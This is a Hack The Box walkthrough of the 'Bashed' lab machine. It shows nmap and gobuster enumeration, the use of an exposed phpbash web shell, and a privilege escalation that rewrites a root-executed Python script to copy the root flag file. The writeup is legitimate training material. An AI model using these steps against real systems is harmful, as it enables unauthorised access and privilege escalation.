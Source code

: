 ```yaml
---
layout: post
title: Bashed (10.10.10.68) Writeup
description: >
  Hackthebox Bashed Writeup
image: /assets/img/bashed.png
noindex: true
---
```


<center><h3>Summary</h3></center>

- Do some simple HTTP enumeration to find a custom php script
- Use the <b>phpbash.php</b> script grab user and root flag

First I start with an nmap scan
``` 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-16 15:48 EDT
Nmap scan report for 10.10.10.68
Host is up (0.053s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.28 seconds
```
<br>
Only one port this time. Navigating to the Ibpage I see a nice custom Ibpage. A quick look aorund does reveal anything obvious

![home.png](../../resources/babe181301b2462383c3d75b7bcb6c3b.png)

Running a gobuster reveals some directories.
```bash
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/fonts (Status: 301)
```
<br>
Quite a few options but the one that is interesting to us is the <b>/dev</b> directory. Navigating to the directory I will see two files. <b>phpbash.min.php</b> and <b>phpbash.php</b> 

![dev.png](../../resources/fd190a94f4c944a6a1ff0e47e4d8bb77.png)

Doesnt matter which file you choose, both of them give you a custom bash shell written in php.

At this point you can grab the user flag located in <b>/user/arrexel</b>.

Now time to get the root flag. Running a quick <b>sudo -l</b> I see that the I can run sudo asa the user <b>scriptmanager</b>.

```bash
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
<br>
Doing some basic enumeration around the box I noticed a strange directory name <b>/scripts</b> which is not there by default. A quick permissions check reveals that the directory is indeed owned by the user <b>scriptmanager</b>. Currently as the user <b>www-data</b> I can see there are two files in there but I are unable to read them. This is where I will use scriptmanagers sudo priviledges

```python
www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.txt
testing 123!
```
Looking at both the files I can come to the conclusion that there is probably a process executing <b>test.py</b> and sending the output to <b>test.txt</b>.

What I are going to do is edit the <b>test.py</b> script to copy the contents of the root.txt file into the test.txt so I can then read it. This can be achieved with the short script below
```python
f = open("test.txt", "w")
r = open("/root/root.txt", "r")
re = r.readline()
f.write(re)
```
Now I wait for the new file to execute and if you did everything correctly than you should be able to get the root flag by reading the <b>/scripts/test.txt</b> file.
<br><br><br>
